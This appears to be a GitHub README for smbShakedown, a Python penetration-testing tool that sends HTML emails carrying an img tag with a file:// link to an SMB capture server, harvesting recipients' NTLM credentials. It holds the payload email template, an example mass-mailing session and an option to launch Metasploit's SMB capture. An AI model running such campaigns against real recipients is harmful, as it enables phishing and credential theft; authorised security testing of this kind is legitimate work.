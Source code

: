 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
# smbShakedown
    Description: 
    Created by: Nick Sanzotta / @beamr
    Version: 2.0


## :book: smbShakedown Wiki
   [Main](https://127.0.0.1/) _In Progress_ <br>


## :white_check_mark: Installation
    OS Requirements: 
	Kali Rolling
###
    Dependencies:

###
    Install:
        git clone https://github.com/NickSanzotta/smbShakedown.git
        cd smbShakedown/
        python smbShakedown.py

###
     Run:

## :x: Uninstall


## :pencil: Cheat Sheet
    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (TIP: For multiple addresses, enter a file or seperate with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.
  
## Note: 

	If using Google's SMTP servers, ensure you have enabled "Less Secure Apps" on your account.
	
	Path: https://www.google.com/settings/security/lesssecureapps
	EX: Allow less secure apps: ON
	
	Please be aware this setting is not available for accounts with 2-Step Verification enabled. 
	Such accounts require an application-specific password for less secure apps access.


***
Example:
       
	External IP: 100.100.100.100
	Internal IP: 10.37.242.7
	
	
	Enter SMTP Server address[smtp.gmail.com]: 
	ENTERED: "smtp.gmail.com"
	
	Enter your SMTP Server Port[587]: 
	ENTERED: "587"
	
	Enter SMTP Server username[user@gmail.com]: user@gmail.com
	ENTERED: "user@gmail.com"
	
	Enter SMTP Server password: 
	
	
	Enter SMB Capture Server IP address[10.37.242.7]: 
	ENTERED:10.37.242.7
	
	Enter "from name":[Tester]
	ENTERED:Tester
	
	Enter "from address":[user@gmail.com]
	ENTERED:user@gmail.com
	
	Enter recipient(s) name[Client]: Client
	ENTERED:Client
	
	TIP: For multiple addresses, enter a file or seperate with a comma
	EX:/opt/emailAddresses.txt or user1@company.com,user2@company.com
	Enter recipient addresses[File or individual email(s)]): /opt/emailAddresses.txt
	ENTERED:/opt/emailAddresses.txt
	
	ENTERED:['user1@company.com', 'user2@company.com']
	
	Email Message Template Below:
	From: Tester <user@gmail.com>
	To: Client <['user1@company.com', 'user2@company.com']>
	MIME-Version: 1.0
	Content-type: text/html
	Subject: smbShakedown.py test.
	
	
	...
	<b>smbShakedown.py test message.</b>
	<br>
	<img src=file://100.100.100.100/image/foo.gif>
	
	Testing Connection to your SMTP Server...
	('SMTP Server Status: ', 250)
	Connection to SMTP Server is successful, would you like to send mail now?[yes]:yes
	ENTERED: "yes"
	
	Message(s) sent!
	no
	Launch Metasploit's SMB Capture module?[yes]:no
	ENTERED: "no"
	
	Ok, remember to setup your SMBCapture Server elsewhere. 


***        
To update email template modify the following in source:
Becareful not to remove the variables {0},{1},{2} and {3}

    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2}
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{3}/image/foo.gif>
    """
    ##########################################################


## :beers: Credits
	Contributor(s):
	Beta Testers:              
    
## Disclaimer

***smbShakedown is intended to be used for legal security purposes only, any other use is not the responsibility of the developer(s). ***
